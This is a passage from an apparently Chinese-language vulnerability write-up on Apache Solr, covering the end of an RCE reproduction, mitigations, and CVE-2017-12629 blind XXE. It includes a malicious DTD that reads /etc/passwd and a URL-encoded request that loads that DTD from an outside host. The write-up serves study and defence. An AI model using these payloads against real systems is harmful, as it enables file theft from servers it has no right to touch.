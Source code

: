 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Yfkkjhf2mLd0F3LNFcJEz1xnfGibWRYsg5FaqS5WKAbQWsKctfEaM7IA/640?wx_fmt=png)

    4. 进入容器可以发现 /tmp/ ，目录下已经成功创建了一个文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YZuv71J5tia03jha7nZtaWeA6qYiayk5tPkzr0VPXWRsadJe8CJ7kg02A/640?wx_fmt=png)

**如何进行防护**  

1. 添加 Solr 访问控制，包括禁止本地直接未授权访问  
2. 针对 RCE 问题，由于涉及的是 SolrCloud 所以建议在所有节点中添加 filter，进行相关过滤

**CVE-2017-12629 XXE 漏洞**

**漏洞简述**

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理基本上是文档通过 Http 利用 XML 加到一个搜索集合中

**漏洞影响版本**

Apache Solr < 7.1  
Apache Lucene < 7.1

**漏洞分析**

这是一个典型的 XXE 漏洞的缺陷编码示例，Lucene 包含了一个查询解析器支持 XML 格式进行数据查询，出现问题的代码片段在 /solr/src/lucene/queryparser/src/java/org/apache/lucene/queryparser/xml/CoreParser.java 文件中

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YjD3FEl6zC6AhL5PKVAoWIgZyrGQic6v70ZT2ibOkpFocLIwlNZKArtwg/640?wx_fmt=png)

通过查看调用栈中的数据处理流程，在调用 lucene xml 解析器时确实没有对 DTD 和外部实体进行替换处理，造成了盲目 XXE  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YiavVlxc68FpQxybCKXovcZ50E8YbleFicuvqkxnljicNEOLEJXIXO0icGQ/640?wx_fmt=png)

**漏洞复现**  

1. 先构造一个站点，放置 dtd 文件 (里面写要执行的代码)，然后用 solr 去包含这个 dtd 站点，就会自动读取 dtd 文件中的文件路径

构造 dtd 站点，这里使用 phpstudy 搭建  
创建一个 1.dtd 文件，dtd 文件内容如下

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YTbmGzMo29IjIDocCAOAicDCOEouO2o8icjibfeD5G4Via0IdLzBc0jZq2w/640?wx_fmt=png)

**由于返回包中不包含我们传入的 XML 中的信息，所以这是一个 Blind XXE 漏洞。**

访问 solr 服务，触发我们的 dtd 文件，浏览器输入如下 payload，里面的 IP 和文件名称根据实际情况修改，这里 solr 的 ip 为 192.168.239.170，文件名称是 1.dtd （payload 需要进行 url 编码）

```
http://192.168.239.129:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2f192.168.239.170%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```
